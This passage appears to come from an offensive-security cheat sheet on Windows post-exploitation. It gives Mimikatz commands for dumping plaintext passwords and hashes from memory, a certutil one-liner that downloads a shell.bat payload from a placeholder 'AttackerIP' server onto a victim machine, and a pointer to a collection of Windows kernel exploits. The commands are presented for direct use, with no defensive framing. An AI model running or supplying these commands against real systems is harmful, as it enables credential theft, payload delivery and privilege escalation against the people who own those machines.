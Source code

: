 ### **Mimikatz**

It allows for the extraction of plaintext credentials from memory, password hashes from local SAM/NTDS.dit databases, advanced Kerberos functionality, and more.

Usage:

* Download https://github.com/gentilkiwi/mimikatz
*   Run the script in PowerShell:

    ```powershell
    mimikatz.exe
    privilege::debug
    sekurlsa::logonpasswords
    ```

***

## Transfer Files

### **Certutil**

&#x20;[certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), whose intended use is for handling certificates but can also be used to transfer files from attacker to victim machine by either downloading a file to disk or base64 encoding/decoding a file.

**Usage:**

*   Run the script in PowerShell:

    ```powershell
    certutil.exe -urlcache -split -f http://AttackerIP:8080/shell.bat shell.bat

    # open HTTP server on attacker box
    ```

***

## Kernel Exploit

Search using KB

```powershell
systeminfo
# to know KBs
```

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
